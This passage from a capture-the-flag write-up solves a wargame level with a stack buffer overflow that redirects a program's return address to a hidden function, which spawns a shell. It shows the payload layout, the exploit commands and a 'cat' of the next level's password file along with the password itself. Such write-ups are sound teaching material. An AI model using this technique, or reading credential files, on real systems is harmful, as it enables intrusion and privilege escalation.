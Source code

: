 **Payload Structure:**
- **76 bytes padding**: Fill buffer and reach return address
- **4 bytes target**: 0x08048444 (run function address)
- **Little-endian**: Intel x86 byte order (least significant byte first)

### 10. Testing the Exploit
```bash
# Test in GDB first
(gdb) run < /tmp/payload
Starting program: /home/user/level1/level1 < /tmp/payload
Good... Wait what?

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

**Partial Success:**
- **"Good... Wait what?" message**: Confirms we reached run() function!
- **fwrite() executed**: Message was printed successfully
- **system() called**: But shell didn't work properly in GDB environment

### 11. Execute the Final Exploit
```bash
# Use the payload with cat to maintain shell session
level1@RainFall:~$ (cat /tmp/payload; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

**Success!**
1. **Buffer overflow executed**: 76 bytes overflowed the buffer
2. **Return address hijacked**: Program jumped to run() instead of normal return
3. **Hidden function called**: run() function executed successfully  
4. **Message displayed**: "Good... Wait what?" confirmed execution
5. **Shell obtained**: system("/bin/sh") provided interactive shell
6. **Privilege escalation**: Shell running with level2 privileges
7. **Flag retrieved**: Access to level2 password achieved

### 12. Understanding the Execution Flow
```bash
# Step-by-step execution analysis:

1. main() allocates 80-byte stack frame
   Buffer at ESP+16, return address at EBP+4

2. gets() reads 80 bytes from payload:
   - First 76 bytes fill buffer and overwrite saved EBP
   - Last 4 bytes (0x08048444) overwrite return address

3. main() executes leave/ret:
   - leave restores stack frame
   - ret pops return address (now 0x08048444) and jumps there

4. Execution transfers to run() function:
   - Prints "Good... Wait what?" message
   - Calls system("/bin/sh")
   - Provides interactive shell with level2 privileges
```

